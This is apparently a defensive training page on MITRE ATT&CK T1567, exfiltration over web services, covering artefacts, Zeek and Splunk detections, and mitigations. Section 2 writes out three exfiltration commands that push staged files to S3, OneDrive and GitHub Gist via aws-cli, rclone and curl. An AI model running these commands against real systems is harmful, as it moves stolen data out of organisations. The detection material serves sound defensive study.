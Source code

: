 ```yaml
---
layout: post
title: "8.4 Exfiltration over Web Services"
date: 2025-06-26
permalink: /modules/8/exfiltration-over-web-services/
excerpt: >
  Stealthy HTTPS uploads to cloud storage, paste‑bins, and collaboration
  platforms can bypass perimeter defenses. Learn the traffic patterns, proxy
  artefacts, and ATT&CK mappings for Web‑Service Exfiltration (T1567.*).
header:
  overlay_image: /assets/images/web-exfil-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “A single TLS POST to the right API can move gigabytes unnoticed—unless you
> measure what normal looks like.”  
> — Network Egress Analyst

## 1 • Technique Scope (T1567 Sub‑Techniques)

| Sub‑Technique                    | Common Targets                      | Typical Tools / APIs         |
|----------------------------------|-------------------------------------|------------------------------|
| **T1567.001 – Upload to Code Repo** | GitHub Gist, GitLab, Bitbucket     | `git`, REST API, `curl`      |
| **T1567.002 – Cloud Storage**    | S3, OneDrive, Google Drive, Dropbox | `aws s3 cp`, `rclone`, WebDAV |
| **T1567.003 – Object Storage**   | Azure Blob, GCS Buckets             | SDKs, `azcopy`, `gsutil`     |

---

## 2 • Cloud‑Drive Upload Examples

### 2.1 AWS CLI (S3)
```bash
aws s3 cp docs.enc s3://corp‑reports/backups/docs.enc --profile attacker \
    --endpoint-url https://s3-us-east-1.amazonaws.com
```
*Proxy artefact:* CONNECT `amazonaws.com:443`; User‑Agent `aws-cli/2.x`.

### 2.2 rclone to OneDrive
```bash
rclone copy C:\staging\docs.7z onedrive:Reports/ --transfers=4 --bwlimit 10M
```
*Logs:* rclone default agent `rclone/v1.66`; M365 audit “FileCreated” in
OneDrive.

### 2.3 GitHub Gist via `curl`
```bash
curl -H "Authorization: token ghp_xxx" -d @docs.enc \
  https://api.github.com/gists
```
*Artefact:* large TLS POST to `api.github.com` (Event 9057 in proxy).

---

## 3 • Network & Host Artefacts

| Artefact / Log                           | Source                           | Technique |
|------------------------------------------|----------------------------------|-----------|
| Large HTTPS POST (>5 MB) to cloud domain | Proxy / Zeek `http.log`          | T1567.002 |
| `aws-cli`, `rclone`, `azcopy` spawn      | Sysmon 1 (ProcessCreate)         | T1567.*   |
| CloudTrail `PutObject` with public ACL   | AWS CloudTrail                   | T1567.002 |
| M365 Unified Audit “FileUploaded”        | Office 365 Audit Log             | T1567.002 |
| `.git/config` with remote HTTPS origin   | $HOME repo dir (host artefact)   | T1567.001 |

**Zeek Example (large POST)**
```zeek
event http_message_done(c: connection) {
  if ( c$http?$request && c$http$request?$method &&
       c$http$request$method == "POST" && c$http?$request?$body_len &&
       c$http$request$body_len > 5000000 )
    print fmt("[T1567] Large POST %s → %s (%d bytes)",
              c$id$orig_h, c$http$host, c$http$request$body_len);
}
```

---

## 4 • Timeline Illustration

| Time UTC        | Technique    | Host  | Detail                                        |
|-----------------|--------------|-------|-----------------------------------------------|
| 13 : 41 : 18    | T1567.002    | WS‑07 | `aws s3 cp docs.enc` spawned (Sysmon 1)       |
| 13 : 41 : 23    | T1567.002    | Proxy | 25 MB POST to `s3.amazonaws.com`              |
| 13 : 42 : 01    | T1074.002    | FS‑01 | Staged file `docs.enc` deleted (cleanup)      |

---

## 5 • SIEM Detection Queries

### Splunk – Large POST to Cloud
```splunk
index=proxy method=POST bytes_out>5000000
| search (dest_domain=".amazonaws.com" OR dest_domain=".onedrive.com" OR dest_domain="api.github.com")
| stats sum(bytes_out) BY user, dest_domain, uri
| eval technique="T1567"
```

### CloudTrail – Public ACL Upload
```splunk
index=aws_cloudtrail eventName=PutObject
| search requestParameters.x-amz-acl="public-read"
| eval technique="T1567.002"
```

---

## 6 • Mitigation & Hardening

1. **CASB / DLP Gateway** – inspect TLS content or block unsanctioned domains.  
2. **Egress ACLs** – restrict direct S3 IP ranges; force VPC gateway endpoints.  
3. **MFA & Conditional Access** – block legacy auth on OneDrive/SharePoint.  
4. **Repository Secrets Scanning** – prevent uploads of encryption keys/archives.

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1567/" target="_blank">ATT&CK T1567 Exfiltration over Web Services</a></li>
    <li><a href="https://rclone.org/docs/" target="_blank">rclone Documentation</a></li>
    <li><a href="https://docs.aws.amazon.com/cli/latest/reference/s3/index.html" target="_blank">AWS CLI S3 Commands</a></li>
    <li><a href="https://learn.microsoft.com/microsoft-365/compliance/use-activity-reports" target="_blank">M365 Audit Logs</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/8/automated-exfiltration/" class="next-link">8.5 Automated Exfiltration →</a>
